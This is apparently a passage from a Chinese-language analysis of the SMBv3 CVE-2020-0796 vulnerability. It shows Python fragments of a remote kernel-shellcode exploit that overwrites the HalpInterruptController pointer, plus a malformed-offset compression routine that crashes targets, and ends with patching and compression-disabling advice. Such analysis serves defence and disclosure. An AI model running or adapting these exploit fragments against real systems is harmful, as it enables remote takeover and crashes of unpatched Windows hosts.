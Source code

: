 ```py
to_write = len(KERNEL_SHELLCODE)
    write_bytes = 0
    while write_bytes < to_write:
        write_sz = min([write_unit, to_write - write_bytes])
        write_primitive(ip, port, KERNEL_SHELLCODE[write_bytes:write_bytes + write_sz], pshellcodeva + write_bytes)
        write_bytes += write_sz
    
    print("[+] Wrote shellcode at %lx!" % pshellcodeva)

    input("[+] Press a key to execute shellcode!")
    
    write_primitive(ip, port, struct.pack("<Q", pshellcodeva), PHALP_INTERRUPT + HALP_APIC_REQ_INTERRUPT_OFFSET)
    print("[+] overwrote HalpInterruptController pointer, should have execution shortly...")
```

### 3.1.2 蓝屏攻击原理

<center>该脚本连接到目标主机，并在转换头中设置了错误的偏移量字段的情况下压缩了身份验证请求，从而导致解压缩器缓冲溢出并导致目标崩溃</center>

```py
def _compress(self, b_data, session):
        header = SMB2CompressionTransformHeader()
        header['original_size'] = len(b_data)
        header['offset'] = 4294967295
        header['data'] = smbprotocol.lznt1.compress(b_data)
```

<br>

## 4.1 修复建议

#### 4.1.1.安装官方补丁

微软已经发布了此漏洞的安全补丁，访问如下链接：<https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796>
给对应的系统打微软出的最新补丁

#### 4.1.2.禁用SMBv3压缩

禁用SMB 3.0的压缩功能，是否使用需要结合自己业务进行判断。

使用以下PowerShell命令禁用压缩功能，以阻止未经身份验证的攻击者利用SMBv3 服务器的漏洞。

```shell
Set-ItemProperty-Path “HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\
Parameters” DisableCompression -Type DWORD -Value 1 -Force
```

用户可通过以下PowerShell命令撤销禁用压缩功能

```shell
Set-ItemProperty-Path “HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\
Parameters” DisableCompression -Type DWORD -Value 0 -Force
```
